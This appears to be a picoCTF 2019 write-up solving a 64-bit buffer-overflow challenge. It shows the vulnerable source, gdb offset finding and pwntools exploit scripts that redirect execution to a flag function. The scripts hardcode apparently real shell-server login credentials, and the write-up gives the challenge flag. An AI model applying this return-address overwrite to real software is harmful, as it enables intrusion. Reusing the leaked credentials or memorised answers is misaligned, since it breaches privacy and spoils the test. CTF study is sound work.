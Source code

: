 # Problem
Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln). You can find it in /problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89 on the shell server. [Source](https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln.c).

## Hints:
Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln
wget https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

The call to ```gets()``` in ```vuln()``` is unsafe, there is no limit checking.

We can override the return address and jump to ```flag()```.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPP)
p $rbp
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x00000000004007e7 in vuln ()
$1 = (void *) 0x4949494949494949
```

We know that ```IIIIIIII``` overrides the return address.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('flag:')
p.sendline('AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII' + p64(binary.symbols['flag']))

print p.recvall()
```

This works locally but doesn't work on remote :(. Searching for this in the [Piazza](https://piazza.com/class/jzwrimxbxi46am?cid=399) says it has something with alignment in Ubuntu 18.04.
We need to add a pointer to some ```ret``` command before the pointer to ```flag```.

```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89')
  p = s.process('./vuln')

binary = ELF('./vuln')
ret = binary.search(asm('ret')).next()

print p.recvuntil('flag:')
p.sendline('AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII' + p64(ret) + p64(binary.symbols['flag']))

print p.recvall()
```

I learned something new, nice!

Flag: picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_bfd48203}